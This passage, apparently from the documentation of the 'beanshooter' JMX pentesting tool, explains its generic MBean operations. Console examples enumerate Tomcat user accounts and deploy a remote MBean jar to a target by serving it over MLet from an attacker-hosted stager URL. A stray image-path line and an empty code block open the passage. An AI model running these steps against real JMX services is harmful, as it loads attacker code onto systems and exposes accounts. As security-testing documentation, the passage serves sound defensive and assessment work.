 ```console
```


### Generic MBean Operations

---

Some *beanshooter* operations are available for each *MBean* and are demonstrated in this section.
These generic *MBean* operations often mirror functionality from the [basic operations](#basic-operations),
but without the requirement of specifying an *ObjectName*.

#### Generic Attr

The `attr` action works the same as the `attr` action from the basic operations. However, the *ObjectName*
does no longer need to be specified, as it is contained within the specified *MBean*.

```console
[qtc@devbox ~]$ beanshooter tomcat attr 172.17.0.2 1090 users
Users:type=User,username="manager",database=UserDatabase
Users:type=User,username="admin",database=UserDatabase
Users:type=User,username="status",database=UserDatabase
```

#### Generic Deploy

The `deploy` action works basically like the `deploy` action from the [basic operations](#basic-operations).
However, since the class name, `ObjectName` and the implementing jar file are all already associated with
the specified *MBean*, you only need to specify the `--stager-url` option with this action (assuming that
a builtin jar file is available):

```console
[qtc@devbox ~]$ beanshooter tonka deploy 172.17.0.2 9010 --stager-url http://172.17.0.1:8000
[+] Starting MBean deployment.
[+]
[+] 	Deplyoing MBean: TonkaBean
[+]
[+] 		MBean class is not known to the server.
[+] 		Loading MBean from http://172.17.0.1:8000
[+]
[+] 			Creating HTTP server on: 172.17.0.1:8000
[+] 				Creating MLetHandler for endpoint: /
[+] 				Creating JarHandler for endpoint: /440441bf8c794d40a83caf1e34cd9993
[+] 				Starting HTTP server... 
[+] 				
[+] 			Incoming request from: iinsecure.example
[+] 			Requested resource: /
[+] 			Sending mlet:
[+]
[+] 				Class:     de.qtc.beanshooter.tonkabean.TonkaBean
[+] 				Archive:   440441bf8c794d40a83caf1e34cd9993
[+] 				Object:    MLetTonkaBean:name=TonkaBean,id=1
[+] 				Codebase:  http://172.17.0.1:8000
[+]
[+] 			Incoming request from: iinsecure.example
[+] 			Requested resource: /440441bf8c794d40a83caf1e34cd9993
[+] 			Sending jar file with md5sum: 55a843002e13f763137d115ce4caf705
[+]
[+] 	MBean with object name MLetTonkaBean:name=TonkaBean,id=1 was successfully deployed
```
